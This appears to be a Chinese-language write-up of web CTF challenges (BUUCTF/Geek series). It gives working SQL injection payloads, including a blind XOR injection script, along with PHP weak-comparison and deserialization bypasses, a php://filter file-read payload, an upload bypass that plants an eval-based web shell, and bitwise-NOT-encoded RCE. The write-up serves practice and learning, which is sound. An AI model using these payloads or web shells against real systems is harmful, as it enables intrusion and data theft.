

EasySQL

签到题
LoveSQL
基本没啥过滤
?username=a' union select 1,2,3%23&password=111
# 查表名 geekuser,l0ve1ysq1
?username=a' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database();%23&password=111
# 查库名 id,username,password
?username=a' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='l0ve1ysq1'%23&password=111
# getFlag
?username=a' union select 1,group_concat(id,username,password),3 from `l0ve1ysq1`%23&password=111BabySQL(双写绕过)
登录框，尝试测试注入点
发现报错了，并且返回的没有输入的or于是猜测被替换为空格了，尝试双写绕过

?username=a'+oorr+1=1#&password=a'+oorr+1=1#下来就是常规注入流程
?username=-1' uniunionon selselectect 1,2,3%23&password=111
# 查表名 b4bsql,geekuser
?username=admin&password=111' uniunionon selselectect 1,group_concat(table_name),3 ffromrom infoorrmation_schema.tables whwhereere table_schema=database()%23
# 查库名 id,username,password
?username=admin&password=111' uniunionon selselectect 1,group_concat(column_name),3 ffromrom infoorrmation_schema.columns whwhereere table_name='b4bsql'%23
# getFlag
?username=admin&password=111' ununionion selselectect 1,group_concat(id,username,passwoorrd),3 ffromrom `b4bsql`%23HardSQL(报错注入)
fuzz测试过滤了好多，主要是空格和=被过滤了，可以用()绕过
em看了wp说是报错注入
# 数据库 geek
?username=admin'or(updatexml(1,concat(0x7e,database(),0x7e),1))#&password=11
# 查表名 H4rDsq1
?username=admin'or(updatexml(1,concat(0x7e,(select(table_name)from(information_schema.tables)where(table_schema)like('geek')),0x7e),1))%23&password=11
# 查库名 id,username,password
?username=admin'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23&password=11
# getFlag 这里只能得到一半flag
?username=admin'or(updatexml(1,concat(0x7e,(select(group_concat(id,username,password))from(`H4rDsq1`)),0x7e),1))%23&password=11
?username=admin'or(updatexml(1,concat(0x7e,(select(right(password,32))from(`H4rDsq1`)),0x7e),1))%23&password=11FinalSQL(1^1^1)
上面几个选项都没啥用，但是会get一个id参数
fuzz测试了一下，username括号也ban了，但是id参数有好多，但是没回显，估计是要盲注了
这里使用异或操作来进行注入，1^1=0,0^0=0,1^0=1
1^1^1=1 1^0^1=0
import requests
url = "http://23fa8212-e443-4df3-bf88-16bb8561a454.node5.buuoj.cn:81/search.php"
i = 0
flag = ''
while True:
head = 32
tail = 127
i = i + 1
while head < tail:
mid = (head + tail) >> 1
# 查表名 F1naI1y,Flaaaaag
# payload = "select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())"
# 查库名 id,username,password
# payload = "select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')"
# getFlag
payload = "select(group_concat(id,username,password))from(F1naI1y)"
data = {
"id": f"1^(ascii(substr(({payload}),{i},1))>{mid})^1"
}
response = requests.get(url, params=data)
if "Click" in response.text:
head = mid + 1
else:
tail = mid
if head != 32:
flag += chr(head)
print("[+] {} is right".format(chr(head)))
print(flag)
else:
break
1mygodcl4y_is_really_amazing,
2welcomewelcome_to_my_blog,
3sitehttp://www.cl4y.top,
4sitehttp://www.cl4y.top,
5sitehttp://www.cl4y.top,
6sitehttp://www.cl4y.top,
7Sycwelcom_to_Syclover,
8finallycl4y_really_need_a_grilfriend,
9flagflag{59f87dfd-c778-496d-8cf6-4349ce4d8e1c}BuyFlag(strcmp)
看样子要改cookie
先抓个包看看
user改成1试试，发现成功
you are Cuiter
Please input your password!! 然后源码给了提示
<!--
~~~post money and password~~~
if (isset($_POST['password'])) {
$password = $_POST['password'];
if (is_numeric($password)) {
echo "password can't be number</br>";
}elseif ($password == 404) {
echo "Password Right!</br>";
}
}
-->因为是弱比较所以发送404a即可，这样即可getFlag
提示数字长度太长了，需要修改，两种方法
- money=1e9
- money[]=1 strcmp函数特性
strcmp函数在进行对比，如果相同返回0不相同返回非0。它是一个PHP弱类型，这个函数比较的是字符串类型，如果强行传入其他参数就会出错，出错后返回0，返回0就可以绕过直接登录了。
Havefun
源码有提示
<!--
$cat=$_GET['cat'];
echo $cat;
if($cat=='dog'){
echo 'Syc{cat_cat_cat_cat}';
}
-->签到题?cat=dog
Http
源码”Secret.php”
# It doesn't come from 'https://Sycsecret.buuoj.cn'
Referer: https://Sycsecret.buuoj.cn
# Please use "Syclover" browser
User-Agent: Syclover
# No!!! you can only read this locally!!!
X-Forwarded-For: 127.0.0.1Knife
我家菜刀丢了，你能帮我找一下么
eval($_POST[“Syc”]);
直接蚁剑连接
PHP
看到提示：备份文件
扫描下载www.zip
# index.php
<?php
include 'class.php';
$select = $_GET['select'];
$res=unserialize(@$select);
?># class.php
<?php
include 'flag.php';
error_reporting(0);
class Name{
private $username = 'nonono';
private $password = 'yesyes';
public function __construct($username,$password){
$this->username = $username;
$this->password = $password;
}
function __wakeup(){
$this->username = 'guest';
}
function __destruct(){
if ($this->password != 100) {
echo "</br>NO!!!hacker!!!</br>";
echo "You name is: ";
echo $this->username;echo "</br>";
echo "You password is: ";
echo $this->password;echo "</br>";
die();
}
if ($this->username === 'admin') {
global $flag;
echo $flag;
}else{
echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
die();
}
}
}
?>只需要满足username=admin和password=100即可，另外要注意绕过__wakeup()，修改属性数即可(“Name”:2 -> “Name”:3)
O%3A4%3A%22Name%22%3A3%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bs%3A3%3A%22100%22%3B%7D
# O:4:"Name":3:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";s:3:"100";}Secret File
根据源码提示(secr3t.php)需要抓包获取，因为会302跳转
访问得到源码
# secr3t.php
<html>
<title>secret</title>
<meta charset="UTF-8">
<?php
highlight_file(__FILE__);
error_reporting(0);
$file=$_GET['file'];
if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
echo "Oh no!";
exit();
}
include($file);
//flag放在了flag.php里
?>
</html>Payload: ?file=php://filter/convert.base64-encode/resource=flag.php
Upload
要求上传图片，对文件名后缀有一些限制，可以用phtml绕过，但是要求文件名不能有<?这个可以用js格式绕过
最后的限制是Not Image这个可在文件添加文件头GIF89a绕过
1.phtml
GIF89a
<script language="php">@eval($_POST['shell']);</script>上传成功后访问/upload/然后进行rce即可
RCE ME(异或 取反)
<?php
error_reporting(0);
if(isset($_GET['code'])){
$code=$_GET['code'];
if(strlen($code)>40){
die("This is too Long.");
}
if(preg_match("/[A-Za-z0-9]+/",$code)){
die("NO.");
}
@eval($code);
}
else{
highlight_file(__FILE__);
}
// ?>这里使用取反，先看一下phpinfo
<?php
$funcation = urlencode(~'phpinfo');
$cmd = urlencode(~'');
$payload = "(~$funcation)(~$cmd)";
echo $payload;
?code=(~%8F%97%8F%96%91%99%90)();看到禁了很多函数system,exec,shell_exec,popen
这里可以用assert
<?php
$funcation = urlencode(~'assert');
$cmd = urlencode(~'(eval($_POST[attack]))');
$payload = "(~$funcation)(~$cmd)";
echo $payload;
?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9E%8B%8B%9E%9C%94%A2%D6%D6);
POST:
attack=phpinfo();然后上蚁剑连接
根目录下有个readflag，需要执行readflag才能得到flag，但是因为限制了很多函数，所以不太行
可以使用蚁剑的绕过disable_functions的插件(Linux下)